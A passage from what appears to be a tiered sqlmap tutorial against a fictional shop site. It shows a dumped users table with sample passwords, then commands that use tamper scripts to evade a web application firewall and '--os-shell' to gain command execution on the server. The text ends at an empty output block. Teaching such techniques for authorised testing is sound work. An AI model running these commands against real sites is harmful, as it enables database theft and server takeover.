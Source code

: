 **Output**:

sql

Copy

Database: vulnshop_db
Table: users
+----+----------+----------+
| id | username | password |
+----+----------+----------+
| 1  | admin    | hash123  |
| 2  | user123  | pass456  |
+----+----------+----------+

#### Key Learnings:

- Enumerating databases, tables, and columns.
    
- Extracting sensitive data (e.g., passwords).
    

---

## **Level 3: Advanced Exploitation (Pro)**

### Scenario: Bypassing Filters and Gaining OS Access

The fictional website now has a WAF (Web Application Firewall) blocking `sqlmap`’s default payloads. Let’s bypass it and take over the server.

#### Step 1: Tamper Scripts to Bypass WAF

Use `tamper` scripts to obfuscate payloads:

bash

Copy

sqlmap -u "http://vuln-shop.com/search.php?query=test" --tamper=space2comment,randomcase --dbs

- `space2comment`: Replaces spaces with `/**/`.
    
- `randomcase`: Randomizes uppercase/lowercase letters.
    

#### Step 2: Execute OS Commands (If DB is MySQL)

If the database user has `FILE` privileges, run commands on the server:

bash

Copy

sqlmap -u "http://vuln-shop.com/search.php?query=test" --os-shell

**Output**:
